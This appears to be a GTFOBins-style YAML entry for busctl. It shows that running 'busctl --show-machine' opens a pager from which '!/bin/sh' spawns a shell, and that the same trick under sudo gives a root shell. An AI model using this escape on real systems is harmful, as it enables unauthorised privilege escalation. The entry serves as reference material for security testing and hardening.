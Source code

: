 description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        busctl --show-machine
        !/bin/sh
  sudo:
    - code: |
        sudo busctl --show-machine
        !/bin/sh
---
